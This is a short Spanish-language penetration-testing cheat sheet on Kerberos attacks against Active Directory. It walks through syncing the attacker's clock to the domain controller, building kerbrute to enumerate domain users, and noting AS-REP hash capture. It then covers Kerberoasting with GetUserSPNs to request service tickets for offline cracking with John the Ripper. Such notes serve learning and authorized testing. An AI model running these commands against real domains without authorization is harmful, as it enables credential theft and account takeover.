# Kerberos 

Tags: #Kerberos #DC #Windows 

Este es el puerto para Kerberos, que es el protocolo de autenticación predeterminado usado en AD. Kerberos es vital para el proceso de inicio de sesión y la concesión de tickets de acceso.
## Sincronizar el reloj 

```bash 
Nota: Antes de iniciar al ataque debemos de sincronizar el reloj de la maquina de atacante con el AD

❯ ntpdate IP     # Sincronizar el reloj 

	# IP = Dirección IP del DC

❯ date -s "2025-01-04 15:30:00"   # Restablecer la fecha y hora
```

## Kerbrute 

```bash 
❯ git clone https://github.com/ropnop/kerbrute           # Descargar la herramienta
❯ go build .                                             # Entrar al dir 'kerbrute' y compilarlo 
```

```bash 
❯ kerbrute userenum -d domain1.corp --dc IP user.txt   # Enumerar y verificar usuarios validos en el dominio 


Nota: Si el usuario no cuenta con autenticacion previa de Kerberos, la herramienta arroja el TGT (hash) y este se puede crackear offline con 'John The Ripper'
```

## Solcitar un TGS con un usuario valido 

```bash 
❯ GetUsersSPNs domain1.corp/user:password            # Verificar si el DC es kerberostable en algún usuario

❯ GetUsersSPNs domain1.corp/user:password -request   # Solicitar un TGS y en offline crackearlo con John 
```